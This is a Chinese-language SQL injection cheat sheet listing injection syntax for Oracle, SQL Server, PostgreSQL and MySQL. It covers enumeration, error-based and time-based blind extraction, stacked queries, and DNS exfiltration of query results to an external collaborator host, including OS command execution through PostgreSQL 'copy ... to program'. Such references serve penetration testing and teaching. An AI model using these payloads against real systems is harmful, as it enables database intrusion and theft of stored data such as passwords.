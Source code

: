 ### SQL 注入攻击语法速查表

这份 SQL 注入速查表提供了在进行 SQL 注入攻击时常用的语法示例，涵盖了多种数据库类型和常见攻击场景。

#### 字符串拼接

可将多个字符串连接成一个字符串：

```plaintext
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [注意两字符串间的空格]
CONCAT('foo','bar')
```

#### 子字符提取

可从指定偏移量开始提取指定长度的子字符串（偏移量索引从 1 开始）：

```plaintext
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```

#### 注释

可使用注释截断查询并移除原始查询中跟随输入的部分：

```plaintext
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [注意双横线后的空格]
/*comment*/
```

#### 数据库版本探测

查询数据库类型和版本信息，用于制定更复杂的攻击：

```plaintext
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```

#### 数据库内容枚举

列出数据库中的表和表结构信息：

```plaintext
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = '表名'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '表名'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '表名'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '表名'
```

#### 条件错误注入

测试布尔条件，条件为真时触发数据库错误：

```plaintext
Oracle	SELECT CASE WHEN (条件) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (条件) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (条件) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(条件,(SELECT table_name FROM information_schema.tables),'a')
```

#### 通过错误消息提取数据

诱使数据库返回包含敏感信息的错误消息：

```plaintext
Microsoft	SELECT 'foo' WHERE 1 = (SELECT 'secret')
> 将varchar值'secret'转换为数据类型int时转换失败。
PostgreSQL	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
> 整数的输入语法无效: "secret"
MySQL	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
> XPATH语法错误: '\secret'
```

#### 批处理（堆叠）查询

连续执行多个查询（结果通常不返回，主要用于盲注）：

```plaintext
Oracle	不支持批处理查询
Microsoft	查询1; 查询2
查询1 查询2
PostgreSQL	查询1; 查询2
MySQL	查询1; 查询2
```

**注意**：MySQL 通常不支持批处理查询注入，但在特定 PHP 或 Python API 环境下可能可行。

#### 时间延迟注入

使数据库在处理查询时产生无条件延迟（10 秒）：

```plaintext
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)				abc'||pg_sleep(10)
MySQL	SELECT SLEEP(10)
```

#### 条件时间延迟

测试布尔条件，条件为真时触发延迟：

```plaintext
Oracle	SELECT CASE WHEN (条件) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (条件) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (条件) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(条件,SLEEP(10),'a')
```

#### DNS 外连测试

使数据库向外部域名发起 DNS 查询（需配合 Burp Collaborator）：

```plaintext
Oracle	
利用(XXE)漏洞触发DNS查询（部分未修复版本）:
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://协作器子域名/"> %remote;]>'),'/l') FROM dual

高权限环境下的方法:
SELECT UTL_INADDR.get_host_address('协作器子域名')

Microsoft	exec master..xp_dirtree '//协作器子域名/a'
PostgreSQL	copy (SELECT '') to program 'nslookup 协作器子域名'
MySQL	
仅限Windows环境:
LOAD_FILE('\\\\协作器子域名\\a')
SELECT ... INTO OUTFILE '\\\\协作器子域名\a'
```

#### 带数据外渗的 DNS 查询

使数据库向包含查询结果的外部域名发起 DNS 查询（需配合 Burp Collaborator）：

```plaintext
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT 查询内容)||'.协作器子域名/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT 查询内容);exec('master..xp_dirtree "//'+@p+'.协作器子域名/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT 查询内容);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.协作器子域名''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	仅限Windows环境:
SELECT 查询内容 INTO OUTFILE '\\\\协作器子域名\a'
```

#### 长度

```
MySQL 			LENGTH(str) 或 CHAR_LENGTH(str)
Oracle 			LENGTH(str) 或 LENGTHB(str)
PostgreSQL		LENGTH(str) 或 CHAR_LENGTH(str)
SQL Server		LEN(str) 或 DATALENGTH(str)
SQLite			LENGTH(str)
```

